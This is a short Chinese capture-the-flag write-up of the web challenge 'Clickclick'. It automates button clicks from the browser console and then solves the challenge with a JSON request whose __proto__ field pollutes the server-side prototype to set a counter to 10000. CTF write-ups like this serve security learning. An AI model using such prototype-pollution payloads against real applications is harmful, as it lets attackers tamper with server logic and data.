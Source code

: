 # Clickclick

题目提示：按钮按到一万次有提示。 

按钮按一万次并不难，选中元素复制js即可：

```javascript
document.querySelector("#app > main > div > button")
```

然后就在控制台里面重复运行：

```javascript
but = document.querySelector("#app > main > div > button")
for (var i = 0; i < 10000; i++) {
    but.click();
}
```

出现两行提示：

```js
什么叫“前后端分离”啊？（战术后仰）

if ( req.body.point.amount == 0 || req.body.point.amount == null) { delete req.body.point.amount }

```

其中第一行是按下 1000 次的提示，第二行是按下 10000 次的提示。注意到第二行的提示代码是 javascript， 查看网络请求，发现每 50 次发送一次请求，格式如下：

```json
{
  "type": "set",
  "point": {
    "amount": 700
  }
}
```

然后到达 1000 次以后，响应错误，提示按钮过快。实际上后端直接禁止了 1000 次 以后的请求，所以我们的 `amount` 值就不可以为 1000 次以后的值。结合后端语言为 `javascript` ，考虑原型链污染。

当 `amount` 值被设置为 0 的时候，后端会删除响应中的这个值。因此，我们直接设置为 0 ，并且污染原型：

```json
{
  "type": "set",
  "point": {
    "amount": 0,
    "__proto__": {
      "amount": 10000
    }
  },
}
```

请求后刷新一下，即可得到 flag
